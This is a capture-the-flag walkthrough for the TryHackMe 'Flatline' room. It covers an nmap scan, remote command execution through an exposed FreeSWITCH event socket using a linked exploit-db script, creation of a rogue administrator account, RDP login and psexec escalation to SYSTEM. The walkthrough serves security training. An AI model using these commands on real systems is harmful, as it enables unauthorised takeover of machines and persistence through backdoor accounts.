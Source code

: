 ```yaml
---
description: https://tryhackme.com/room/flatline
---
```


# Flatline

## Nmap

```
nmap 10.10.39.143 -Pn -p- -sS -sV

PORT     STATE SERVICE          VERSION
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Starting out with only two ports of which, we can disregard `RDP` for the moment and focus on 8021 which `Nmap` has detected as being "FreeSWITCH mod\_event\_socket".

`mod_event_socket` is a TCP-based interface to control FreeSWITCH, and it operates in two modes, **inbound** and **outbound**.

By default, connections are only allowed from localhost, but this can be changed via configuration files

**Freeswitch:** [https://freeswitch.org/confluence/display/FREESWITCH/mod\_event\_socket](https://freeswitch.org/confluence/display/FREESWITCH/mod\_event\_socket)

With this in mind and when researching exploits on Google we find the following python script on **exploit-db**: [https://www.exploit-db.com/exploits/47799](https://www.exploit-db.com/exploits/47799).

![](<../../../.gitbook/assets/image (2055).png>)

The syntax to be used for the script for command execution:

```python
python exploit.py <IP> <Command>
```

**Note:** When using the script I found I was not seeing any return feedback from the script. I was not sure at the time if this was the script or the target system. Looking at other walk through's after rooting the box I noticed this behaviour is unexpected. However, I have detailed my steps around the issue below as I thought originally, it was intentional.

Going with the above in mind I started sending some basic commands to the box. Without being able to see the results of the command I fired up WireShark and used this to record the command output.

As shown below the current user is an Administrator on the machine.

![](<../../../.gitbook/assets/image (34) (1).png>)

Knowing then I then created a new administrative user and added them to the administrators group.

```python
python exploit.py <IP> 'net user /add viper Password123 && net localgroup "Administrators" /add viper'
```

![](<../../../.gitbook/assets/image (28) (1).png>)

With successful confirmation we can then login as our own administrative user with `xfreerdp` as `RDP` is open.

```bash
xfreerdp /v:10.10.146.100 /u:viper /p:Password123 +clipboard
```

![](<../../../.gitbook/assets/image (200).png>)

After starting command prompt we move over to the user Nekrotic's desktop and grab the `user.txt` flag contents.

![](<../../../.gitbook/assets/image (899).png>)

With `root.txt` we find that we are unable to access due to insufficient permissions. Seeing as we are an admin the best route may be to use `psexec` to escalate to SYSTEM and then to read the file.

Psexec.exe: [https://docs.microsoft.com/en-us/sysinternals/downloads/psexec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

**Note:** Psexec can be copy and pasted over though `xfreerdp` if executed with the parameter `+clipboard`.

Run `Psexec.exe` with the following to start a command prompt as SYSTEM.

```
psexec.exe -accepteula -s cmd.exe
```

![](<../../../.gitbook/assets/image (398).png>)

Where we can then read the contents of `root.txt`.

![](<../../../.gitbook/assets/image (7) (2).png>)
